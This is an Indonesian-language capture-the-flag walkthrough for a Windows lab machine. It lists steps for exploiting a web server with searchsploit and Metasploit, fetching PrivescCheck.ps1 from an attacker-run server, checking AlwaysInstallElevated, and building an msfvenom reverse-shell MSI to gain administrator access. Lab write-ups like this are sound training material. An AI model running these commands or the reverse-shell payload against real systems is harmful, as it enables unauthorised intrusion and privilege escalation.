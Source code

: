 1. scan banyak port -> windows inimah
2. /Images ada dir listing -> buka aja -> ada foto anomali webp sendiri lainnya png jpg
3. cek source code -> disitu ada fetch ke port -> coba lakuin sama -> pake method put jadi burp aja
4. gausah la -> langsung ke root port itu aja -> nah ada tuh cari exploit nya di searchsploit
5. searchsploit nama webserver -> copy id nya -> searchsploit -m id
6. msfconsole -> cari lagi use aja -> set rhost ke domain, rport ke port server itu, lhost ip vpn -> run
7. shell -> ke /users/desktop -> cat aja pake type tapi -> type user.txt
8. di folder user -> tree /f -> biar enak nyari2 
9. ada tuh cred -> coba cek peCheck.ps1 -> python server -> curl ip:port/namafile -o namafile -> run
10. . .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended 
11. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
12. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  
13. msfvenom -p windows/x64/shell_reverse_tcp LHOST=ipvpn LPORT=portnc -a x64 --platform Windows -f msi -o rev.msi 
14. python server -> curl kayak tadi -> nyalain nc port nya di msfvenom tadi ->  ./namafile.msi
15. ke /users/Administrator -> klaim root
